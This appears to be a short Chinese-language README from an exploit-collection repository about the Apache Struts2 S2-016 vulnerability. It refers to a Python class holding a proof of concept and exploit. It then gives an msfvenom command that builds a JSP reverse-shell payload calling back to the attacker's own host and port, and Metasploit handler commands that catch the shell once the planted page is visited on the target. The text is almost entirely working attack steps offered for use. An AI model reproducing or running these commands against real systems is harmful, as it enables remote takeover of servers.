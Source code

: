 # 收集各种漏洞并给出exp
### [struts2-016](https://struts.apache.org/docs/s2-016.html)
struts2_collections.py中类Strus2_016详细给出了poc、exp
其中shell.jsp使用msfvenom生成

```shell
msfvenom -a x86 --platform windows -p java/jsp_shell_reverse_tcp LHOST=your ip LPORT=your port -o shell.jsp
```
访问http://target/shell.jsp
进入metasploit
```shell
msf> use exploit/multi/handler
msf> set LHOST your ip
msf> set LPORT your port
msf> exploit -j
```
等待sessions完成
